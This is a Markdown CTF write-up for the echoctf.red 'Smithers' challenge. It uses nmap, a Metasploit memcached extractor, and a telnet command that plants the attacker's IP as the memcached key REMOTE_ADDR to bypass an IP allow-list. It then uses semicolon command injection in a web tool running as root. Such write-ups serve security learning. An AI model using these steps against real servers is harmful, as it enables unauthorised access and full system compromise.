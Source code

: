 ```yaml
---
layout: post
title:  "Smithers"
date:   2024-07-18 17:42:56 +0200
categories: ctf
---
```

![Smithers](/assets/smithers/smithers.png)

[Link to target](https://echoctf.red/target/5)

## Introduction
This post details the process of solving the "Smithers" challenge on echoctf.red.

## Enumeration Phase

### Nmap Scan
I start the reconnaissance with nmap:

```
PORT      STATE SERVICE   VERSION
10888/tcp open  http      nginx
| http-methods: 
|_  Supported Methods: GET HEAD POST
|_http-title: Network Tools
11211/tcp open  memcached Memcached 1.5.12 (uptime 224 seconds)
```

### Web Server on Port 10888
There is a web server running on port 10888:
![Webserver](/assets/smithers/webserver.png)

It mentions that these utilities are only available to authorized IP addresses.

### Extracting Information from Memcached with Metasploit
I use Metasploit to extract information from the memcached service:

```
msf6 > use auxiliary/gather/memcached_extractor

msf6 auxiliary(gather/memcached_extractor) > set rhosts 10.0.100.142 
rhosts => 10.0.100.142
msf6 auxiliary(gather/memcached_extractor) > exploit

[+] 10.0.100.142:11211    - Found 1 keys

Keys/Values Found for 10.0.100.142:11211
========================================

 Key     Value
 ---     -----
 ETSCTF  "VALUE ETSCTF 0 39\r\nETSCTF_<REDACTED>\r\nEND\r\n"

```

A flag is found in the memcached service.

## Exploitation Phase

### Using Telnet to Modify Memcached
The key is to store my IP address in the memcached service as `REMOTE_ADDR`. After some research, I use telnet to connect and store my IP address:

```
telnet 10.0.100.142 11211
Trying 10.0.100.142...
Connected to 10.0.100.142.
Escape character is '^]'.
add REMOTE_ADDR 0 0 10
<My IP>
STORED
```


### Accessing the Web Server
Once my address is stored, I can access the web server, which presents a command line interface:
![Webserver After](/assets/smithers/webserver_after.png)

Two flags are visible. Using a semicolon (`;`), I can run other commands and see that it runs as root. By executing:

```
grep -r 'ETSCTF' /
``` 

All flags are found.
